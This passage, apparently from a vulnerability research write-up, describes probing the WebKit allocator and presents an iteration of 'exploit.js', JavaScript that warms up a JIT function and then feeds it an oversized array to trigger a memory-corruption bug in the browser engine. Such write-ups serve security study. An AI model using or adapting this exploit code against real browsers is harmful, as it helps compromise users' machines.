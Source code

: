 While I'd love to spend more time learning about the WebKit allocator I figured an easier way to go about this would be to try a couple of ideas and see if they lead to any different results and debug from there.

One of the ideas I had was to allocate an array of size 0x10 since this will be in the same allocation step size as our array that will trigger the vulnerability and then to call `jitMe` with an array of size 1. Since we know the address of the allocator we can set a watch point on the values that lead to branches and see when they change. I had this idea because I figured allocating an object that will be in the same step size might lead the allocator to a different more interesting state. This leads to the next iteration of exploit.js

```javascript
function jitMe(array){
  for(let i = 0; i < 0x4000; i++){
    let x = 1 + 1 
  }
  return [...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array]
}

let dummy = [1.1]
for(let i = 0; i < 80; i++){
  print(i)
  jitMe(dummy);
}

let a = []

let len = 0x20000010 / 0x10

for(let i = 0; i < len; i++){
  a[i] = 1.1 
}

let x = new Array(0x10)
let b = [1.1]

jitMe(b)                                                                                             
jitMe(a)
```
